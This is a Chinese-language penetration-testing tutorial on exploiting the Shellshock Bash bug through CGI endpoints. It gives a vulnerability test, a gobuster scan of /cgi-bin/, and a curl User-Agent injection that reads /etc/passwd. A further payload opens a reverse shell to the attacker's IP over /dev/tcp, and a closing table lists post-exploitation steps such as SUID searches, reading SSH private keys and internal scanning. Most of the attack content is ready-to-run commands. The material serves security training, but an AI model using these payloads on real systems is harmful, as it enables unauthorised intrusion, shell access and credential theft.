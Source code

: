 # 攻擊通用網關介面 (CGI) 應用程式 - Shellshock

## <mark style="color:red;">**1. 發現點**</mark>

* Shellshock 係因為 Bash 對環境變數處理方式出錯
* 本應函數定義儲存到變數，但 Bash 執行錯誤地允許「函數後面嘅指令」被當成系統命令執行
* 適用於舊版 Bash（很多 Linux 主機在 CGI 程式執行時都會用到 Bash）

## <mark style="color:red;">**2. 測試Payload**</mark>

```
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

* 如果系統有漏洞，會輸出：

```
vulnerable-shellshock
not vulnerable
```

* 否則只會印出 `not vulnerable`

## <mark style="color:red;">3. 掃描路徑</mark>

* 使用 Gobuster、dirb、ffuf 等工具找 CGI endpoint：

```bash
gobuster dir -u http://<target>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

* 找到如 `/cgi-bin/access.cgi`

## <mark style="color:red;">4. 確認漏洞</mark>

* 用 curl 嘗試注入指令：

```bash
curl -H 'User-Agent: () { :; }; echo; /bin/cat /etc/passwd' http://<target>/cgi-bin/access.cgi
```

* 如果回傳 `/etc/passwd` 的內容，即確認漏洞存在

## <mark style="color:red;">5. 利用取得反向 shell</mark>

* 開啟 listener：

```bash
nc -lvnp 7777
```

* 發送 payload：

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/你的IP/7777 0>&1' http://<target>/cgi-bin/access.cgi
```

* 成功後獲得 `www-data` 權限 shell



## <mark style="color:red;">5. 連鎖漏洞</mark>

當拿到 `www-data` 權限後，可以進行以下鏈式利用（pivot）：

| 步驟               | 攻擊目標                                     | 工具/命令範例                                            |
| ---------------- | ---------------------------------------- | -------------------------------------------------- |
| **本地提權**         | 找可利用的 sudo 權限、SUID Binary、Kernel Exploit | `sudo -l`、`find / -perm -4000 -type f 2>/dev/null` |
| **檔案搜尋敏感資訊**     | 找密碼、Token、私鑰                             | `find / -type f -iname "*password*" 2>/dev/null`   |
| **橫向移動**         | 如果有多個用戶或內網目標，嘗試 SSH、RDP、Telnet           | `cat ~/.ssh/id_rsa`、`ssh user@ip`                  |
| **讀 crontab**    | 檢查是否有定時執行惡意可利用的腳本                        | `cat /etc/crontab`                                 |
| **檢查 NFS / SMB** | 有沒有掛載 NFS、開啟 SMB 可導致任意檔案存取               | `showmount -e <ip>`、`smbclient -L //<ip>`          |
| **內網掃描**         | 利用目標主機繼續向內部網段滲透                          | 使用 `nmap`、`ping`                                   |
